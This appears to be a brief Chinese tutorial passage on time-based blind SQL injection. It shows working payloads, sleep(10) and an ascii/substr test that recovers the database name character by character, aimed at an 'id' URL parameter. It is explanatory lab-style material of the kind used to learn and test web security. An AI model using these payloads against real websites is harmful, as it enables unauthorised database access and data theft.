

1、判断是否存在延时注入
 ?id=1' and sleep(10) --+
如图所示，观察请求的时间线，大概在5秒以上，说明构造的sleep(10) 语句起作用，可以把这个时间线作为sql 注入的判断依据。

2、获取数据库名字
 ?id=1' and if(ascii(substr(database(),1,1))= 115,sleep(5),0) --+

其他操作和bool盲注同理